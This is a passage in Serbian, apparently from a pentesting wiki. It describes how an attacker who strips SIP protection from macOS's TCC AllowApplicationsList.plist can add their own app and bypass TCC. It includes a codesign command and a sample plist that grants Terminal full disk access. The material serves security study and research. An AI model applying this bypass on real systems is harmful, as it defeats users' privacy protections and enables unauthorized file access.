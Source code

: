 Međutim, postoji još jedna opcija za zloupotrebu ovog **SIP zaobilaska za zaobilaženje TCC**, fajl `/Library/Apple/Library/Bundles/TCC_Compatibility.bundle/Contents/Resources/AllowApplicationsList.plist` je lista aplikacija koje zahtevaju TCC izuzetak. Dakle, ako napadač može **ukloniti SIP zaštitu** sa ovog fajla i dodati svoju **sopstvenu aplikaciju**, aplikacija će moći da zaobiđe TCC.\
Na primer, da dodate terminal:

```bash
# Get needed info
codesign -d -r- /System/Applications/Utilities/Terminal.app
```

AllowApplicationsList.plist:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Services</key>
<dict>
<key>SystemPolicyAllFiles</key>
<array>
<dict>
<key>CodeRequirement</key>
<string>identifier &quot;com.apple.Terminal&quot; and anchor apple</string>
<key>IdentifierType</key>
<string>bundleID</string>
<key>Identifier</key>
<string>com.apple.Terminal</string>
</dict>
</array>
</dict>
</dict>
</plist>
```

#### TCC Bypassovi

### Reference

* [**https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive**](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive)
* [**https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command**](https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command)
* [**https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/**](https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/)
* [**https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/**](https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/)

</details>
